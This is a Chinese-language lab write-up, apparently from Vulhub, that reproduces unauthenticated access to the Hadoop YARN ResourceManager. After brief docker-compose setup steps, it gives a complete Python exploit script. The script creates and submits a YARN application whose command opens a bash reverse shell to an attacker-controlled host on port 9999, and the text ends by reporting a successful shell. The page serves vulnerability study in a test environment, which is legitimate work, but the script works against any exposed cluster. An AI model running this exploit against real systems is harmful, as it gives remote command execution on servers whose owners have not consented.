


Hadoop YARN ResourceManager 未授权访问¶
漏洞描述¶
环境搭建¶
Vulhub运行测试环境
docker-compose up -d
环境启动后，访问http://your-ip:8088即可看到Hadoop YARN ResourceManager WebUI页面。

漏洞复现¶
利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST API (https://hadoop.apache.org/docs/r2.7.3/hadoop-yarn/hadoop-yarn-site/ResourceManagerRest.html) 也可以提交任务执行。
利用过程如下：
- 在本地监听等待反弹 shell 连接
- 调用 New Application API 创建 Application
- 调用 Submit Application API 提交
参考 exp 脚本
#!/usr/bin/env python
import requests
target = 'http://127.0.0.1:8088/'
lhost = '192.168.0.1' # put your local host ip here, and listen at port 9999
url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
'application-id': app_id,
'application-name': 'get-shell',
'am-container-spec': {
'commands': {
'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
},
},
'application-type': 'YARN',
}
requests.post(url, json=data)
成功反弹shell：
